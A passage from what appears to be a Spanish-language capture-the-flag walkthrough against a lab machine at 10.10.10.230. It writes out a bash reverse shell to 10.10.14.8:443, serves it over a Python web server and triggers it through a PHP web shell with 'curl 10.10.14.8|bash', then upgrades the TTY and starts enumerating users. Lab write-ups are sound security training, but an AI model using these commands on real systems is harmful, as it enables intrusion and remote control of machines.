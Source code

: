     ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. Desde la s4vishell

    ```php
    http://10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash
    ```

Ya esta

```bash
whoami
#Output

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
ls -l
cd /home
ls -l
cd noah/
cat user.txt
```

Permission denied. Nos tenemos que pasar al usuario Noah

### User Pivoting al usuario noah {-}
